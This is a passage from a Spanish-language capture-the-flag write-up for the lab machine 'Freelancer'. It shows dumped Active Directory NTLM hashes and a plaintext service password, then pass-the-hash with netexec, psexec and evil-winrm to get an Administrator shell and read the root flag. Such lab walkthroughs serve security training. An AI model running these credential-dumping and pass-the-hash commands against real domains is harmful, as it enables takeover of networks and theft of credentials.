NL$KM:d90b60a472c3b608e4f1ff5462916566deee1917583112cbdf2518d036b0c1f41b96c35f2273f0d6b9812f26ba696afd7fc70b8771bed5f58a74b43abdafdb71
[*] _SC_MSSQL$SQLEXPRESS
FREELANCER\sql_svc:v3ryS0l!dP@sswd#34
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d238e0bfa17d575038efc070187a91c2:::
freelancer.htb\mikasaAckerman:1105:aad3b435b51404eeaad3b435b51404ee:e8d62c7d57e5d74267ab6feb2f662674:::
sshd:1108:aad3b435b51404eeaad3b435b51404ee:c1e83616271e8e17d69391bdcd335ab4:::
SQLBackupOperator:1112:aad3b435b51404eeaad3b435b51404ee:c4b746db703d1af5575b5c3d69f57bab:::
sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
lorra199:1116:aad3b435b51404eeaad3b435b51404ee:67d4ae78a155aab3d4aa602da518c051:::
freelancer.htb\maya.artmes:1124:aad3b435b51404eeaad3b435b51404ee:22db50a324b9a34ea898a290c1284e25:::
freelancer.htb\michael.williams:1126:aad3b435b51404eeaad3b435b51404ee:af7b9d0557964265115d018b5cff6f8a:::
freelancer.htb\sdavis:1127:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\d.jones:1128:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\jen.brown:1129:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\taylor:1130:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\jmartinez:1131:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\olivia.garcia:1133:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
freelancer.htb\dthomas:1134:aad3b435b51404eeaad3b435b51404ee:933a86eb32b385398ce5a474ce083447:::
....
Tenemos que quedarnos con el hash NT del NTDS.dit que corresponde al dominio, ya que la SAM corresponde a la cuenta local del sistema.
Administrator:0039318f1e8274633445bce32ad1a290
Ahora con netexec podemos confirmar que este hash es válido para hacer PTH.
$ nxc smb freelancer.htb -u 'Administrator' -H '0039318f1e8274633445bce32ad1a290'
SMB 10.129.230.3 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB 10.129.230.3 445 DC [+] freelancer.htb\Administrator:0039318f1e8274633445bce32ad1a290 (Pwn3d!)
Sigue sin darme la consola con psexec
$ impacket-psexec -hashes ':0039318f1e8274633445bce32ad1a290' Administrator@10.129.230.3
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Requesting shares on 10.129.230.3.....
[*] Found writable share ADMIN$
[*] Uploading file IsscEUer.exe
[*] Opening SVCManager on 10.129.230.3.....
[*] Creating service whwo on 10.129.230.3.....
[*] Starting service whwo.....
Pero ahora teniendo el hash podemos conectarnos via WinRM
$ evil-winrm -i 10.129.230.3 -u Administrator -H '0039318f1e8274633445bce32ad1a290'
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
freelancer\administrator
Y ya podríamos visualizar la flag de root.
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Directory: C:\Users\Administrator\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 8/5/2024 6:11 AM 34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e68eceea24d49627cc...
¡Y ya estaría!
Happy Hacking! 🚀